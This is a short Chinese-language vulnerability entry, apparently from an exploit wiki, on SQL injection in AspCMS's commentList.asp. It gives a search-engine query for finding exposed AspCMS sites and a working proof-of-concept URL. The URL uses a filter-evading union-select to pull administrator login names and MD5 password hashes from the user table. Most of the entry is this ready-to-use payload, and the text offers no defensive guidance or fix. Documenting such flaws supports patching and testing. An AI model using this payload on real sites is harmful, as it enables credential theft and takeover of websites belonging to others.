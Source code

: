 # AspCMS commentList.asp SQL注入漏洞

## 漏洞描述

AspCMS commentList.asp 存在SQL注入漏洞，攻击者通过漏洞可以获取管理员md5的密码

## 漏洞影响

<a-checkbox checked>AspCMS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ASPCMS"</a-checkbox></br>

## 漏洞复现

通过网站源码响应判断CMS

![img](/assets/PeiQi-Wiki/img/1628478800340-8ab8b7c0-3f74-4294-bac5-4153b18ae8c9.png)

验证POC

```php
/plug/comment/commentList.asp?id=-1%20unmasterion%20semasterlect%20top%201%20UserID,GroupID,LoginName,Password,now(),null,1%20%20frmasterom%20{prefix}user
```

![img](/assets/PeiQi-Wiki/img/1628478943060-7c05774b-519d-47cf-ad9a-05fb52f74253.png)

成功获取管理员账号以及密码的MD5